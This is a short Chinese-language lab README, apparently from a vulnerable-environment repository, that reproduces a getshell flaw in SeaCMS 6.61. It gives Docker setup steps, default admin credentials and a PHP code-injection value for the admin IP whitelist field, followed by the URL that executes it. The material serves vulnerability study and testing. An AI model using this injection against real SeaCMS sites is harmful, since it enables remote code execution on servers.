

## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
这个漏洞很多，以GETSHELL为例
在后台 系统->后台IP安全设置

后台地址
http://127.0.0.1/manager/login.php
账户admin:admin

添加
```shell

  127.0.0.1";phpinfo();"
```

然后访问http://127.0.0.1/data/admin/ip.php




## 漏洞连接
[php_code_audit_project/seacms 6.61 code_audit.md at master · SukaraLin/php_code_audit_project · GitHub](https://github.com/SukaraLin/php_code_audit_project/blob/master/seacms/seacms%206.61%20code_audit.md)
https://altman.vip/2018/09/27/seacmsv6.61-getshell/